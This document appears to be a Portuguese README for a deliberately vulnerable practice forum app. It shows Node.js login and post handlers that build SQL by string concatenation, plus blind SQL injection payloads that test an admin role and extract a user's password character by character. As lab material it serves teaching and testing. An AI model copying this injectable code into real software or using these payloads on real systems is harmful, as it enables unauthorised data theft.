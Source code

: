 # Fórum com Injeção SQL Cega

## Configuração

1. Instale as dependências:

```
npm install
```

2. Inicialize o banco de dados com dados de exemplo:

```
node setup-db.js
```

3. Inicie o servidor:

```
npm start
```

4. Acesse o fórum em: http://localhost:3000

## Vulnerabilidades

### 1. Injeção SQL na Página de Login

A página de login também é vulnerável à injeção SQL. As entradas do usuário para nome de usuário e senha são concatenadas diretamente na consulta SQL sem sanitização:

```javascript
app.post("/login", (req, res) => {
  const { username, password } = req.body;

  // VULNERÁVEL: Blind SQLi cega na consulta de login
  // concatenando diretamente a entrada do usuário na consulta SQL
  const query = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;

  db.get(query, (err, user) => {
    // ...manipulação da resposta...
  });
});
```

Mensagem de teste' AND (SELECT role FROM users WHERE username='PaulAtreides')='admin' AND '1'='1

### 2. Injeção SQL Cega na Postagem de Mensagens

O endpoint `/post` para postar novas mensagens também é vulnerável à injeção SQL cega. Isso pode ser explorado para extrair dados do banco de dados:

```javascript
app.post("/post", (req, res) => {
  const { username, content, planet } = req.body;

  // VULNERÁVEL: Injeção SQL cega na postagem de mensagem
  const query = `INSERT INTO messages (username, content, planet) 
                  VALUES ('${username}', '${content}', '${
    planet || "Desconhecido"
  }')`;

  db.run(query, (err) => {
    // ...manipulação da resposta...
  });
});
```

#### Exemplo de Ataque

Ao postar uma mensagem, você pode usar o seguinte payload no campo de conteúdo para extrair informações de senha caractere por caractere:

```
Essa mensagem não tem nenhum payload', (SELECT CASE WHEN (SELECT substr(password,1,1) FROM users WHERE username='PaulAtreides')='a' THEN 'success' ELSE 'fail' END)) -- '
```

#### Explicação do Payload:

1. Fecha a string atual com uma aspa e adiciona uma vírgula
2. Usa uma instrução CASE para verificar se o primeiro caractere da senha de Paul é 'a'
3. Comenta o resto da consulta

Se o primeiro caractere for 'a', a consulta é executada e retorna success. Se não, ela retorna fail.

Para extrair a senha completa, modifique a posição (altere `1,1` para `2,1` para o segundo caractere) e tente diferentes caracteres.
